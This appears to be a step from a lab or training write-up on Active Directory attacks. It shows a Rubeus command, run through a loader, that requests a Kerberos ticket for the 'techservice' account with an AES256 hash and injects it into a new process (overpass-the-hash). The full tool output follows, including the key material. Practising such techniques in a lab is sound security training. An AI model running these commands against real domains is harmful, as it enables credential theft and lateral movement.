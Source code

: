 ![Run as administrator](learning_objectives_run_as_administrator.png)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:techservice /aes256:7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: tech.finance.corp
[*] Showing process : True
[*] Username        : 04ZH8ONJ
[*] Domain          : 4UIN93E5
[*] Password        : UOZK2GE6
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3324
[+] LUID            : 0x5dbd08

[*] Using domain controller: tech-dc.tech.finance.corp (172.16.4.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: TECH.FINANCE.CORPtechservice
[*] Using aes256_cts_hmac_sha1 hash: 7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb
[*] Building AS-REQ (w/ preauth) for: 'tech.finance.corp\techservice'
[*] Target LUID : 6143240
[*] Using domain controller: 172.16.4.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x5dbd08
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt/TECH.FINANCE.CORP
  ServiceRealm             :  TECH.FINANCE.CORP
  UserName                 :  techservice🎭 (NT_PRINCIPAL)
  UserRealm                :  TECH.FINANCE.CORP🏛️
  StartTime                :  3/11/2025 11:16:55 AM
  EndTime                  :  3/11/2025 9:16:55 PM
  RenewTill                :  3/18/2025 11:16:55 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  rD+bz7cOAiFFiUDjDt0KMcx5KpKUFquKg7SQQswIWEs=
  ASREP (key)              :  7F6825F607E9474BCD6B9C684DC70F7C1CA977ADE7BFD2AD152FD54968349DEB
```

![New spawned terminal process 1](learning_objective_07_new_spawned_terminal_process_1.png)
